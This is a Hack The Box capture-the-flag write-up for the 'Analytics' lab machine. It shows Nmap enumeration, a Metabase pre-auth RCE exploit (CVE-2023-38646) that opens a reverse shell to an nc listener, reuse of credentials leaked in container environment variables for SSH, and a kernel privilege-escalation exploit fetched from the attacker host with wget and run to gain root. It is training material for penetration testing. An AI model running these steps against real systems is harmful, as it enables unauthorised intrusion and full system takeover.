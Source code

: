 # HTB - Analytics

#### Ip: 10.10.11.233
#### Name: Analytics
#### Rating: Easy

----------------------------------------------------------------------

![Analytics.png](../assets/analytics_assets/Analytics.png)

### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up. I'll also use the `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/HTB/Analytics]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV 10.10.11.233 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-03-08 11:46 CST
Nmap scan report for 10.10.11.233
Host is up (0.082s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3eea454bc5d16d6fe2d4d13b0a3da94f (ECDSA)
|_  256 64cc75de4ae6a5b473eb3f1bcfb4e394 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://analytical.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.83 seconds
```

Lets add analytical.htb to `/etc/hosts`

Checking out the site on port 80 we find a largely static page:

![analytics_site.png](../assets/analytics_assets/analytics_site.png)

Interestingly though, the login page redirects to data.analytical.htb, so lets also add that to `/etc/hosts`

Navigating to this page presents me with a login to metabase:

![analytics_metabase_login.php](../assets/analytics_assets/analytics_metabase_login.png)

Searching for exploits I find: https://www.assetnote.io/resources/research/chaining-our-way-to-pre-auth-rce-in-metabase-cve-2023-38646 which details vulnerabilities we can chain together to achieve RCE on the target.

First, we can navigate to http://data.analytical.htb/api/session/properties to obtain the setup-token we'll need:

![analytics_setup_token.png](../assets/analytics_assets/analytics_setup_token.png)

Next, I searched for public exploits for the vulnerability and found: https://github.com/securezeron/CVE-2023-38646/blob/main/CVE-2023-38646-Reverse-Shell.py

I can run the script with will fetch the setup-token, and spawn a reverse shell in my nc listener:

```
┌──(ryan㉿kali)-[~/HTB/Analytics]
└─$ python CVE-2023-38646-Reverse-Shell.py --rhost http://data.analytical.htb/api/session/properties --lhost 10.10.14.16 --lport 443
```

```
┌──(ryan㉿kali)-[~/HTB/Analytics]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.11.233] 40070
bash: cannot set terminal process group (1): Not a tty
bash: no job control in this shell
9431f8dc1d11:/$ whoami
whoami
metabase
```
Not seeing much on the target, I run linpeas and discover I've landed in a Docker container:

```
╔══════════╣ Container details
═╣ Is this a container? ........... docker
```

Knowing this lets run the `env` command to see if we can extract more information:

```
META_USER=metalytics
META_PASS=An4lytics_ds20223#
```

Nice, here is a new user and their password. lets use these to SSH in as metalytics:

```
┌──(ryan㉿kali)-[~/HTB/Analytics]
└─$ ssh metalytics@10.10.11.233
```

From here I can grab the user.txt flag:

![analytics_user.png](../assets/analytics_assets/analytics_user.png)

### Privilege Escalation

Looking around and not seeing much, I went back to the basics and ran `uname -a` to check out the kernel version:

```
metalytics@analytics:/tmp$ uname -a
Linux analytics 6.2.0-25-generic #25~22.04.2-Ubuntu SMP PREEMPT_DYNAMIC Wed Jun 28 09:55:23 UTC 2 x86_64 x86_64 x86_64 GNU/Linux
```

Searching for exploits I find: https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629


I can copy the exploit to the target and run it:
```
metalytics@analytics:/tmp$ wget 10.10.14.16/ubuntu_6.2.0_exploit.sh
--2024-03-08 18:59:42--  http://10.10.14.16/ubuntu_6.2.0_exploit.sh
Connecting to 10.10.14.16:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 558 [text/x-sh]
Saving to: ‘ubuntu_6.2.0_exploit.sh’

ubuntu_6.2.0_exploit.sh         100%[====================================================>]     558  --.-KB/s    in 0.005s  

2024-03-08 18:59:42 (117 KB/s) - ‘ubuntu_6.2.0_exploit.sh’ saved [558/558]

metalytics@analytics:/tmp$ chmod +x ubuntu_6.2.0_exploit.sh 
metalytics@analytics:/tmp$ ./ubuntu_6.2.0_exploit.sh 
[+] You should be root now
[+] Type 'exit' to finish and leave the house cleaned
root@analytics:/tmp# whoami
root
```

I can then grab the final flag:

![analytics_root.png](../assets/analytics_assets/analytics_root.png)

Thanks for following along!

-Ryan

-----------------------------------------------
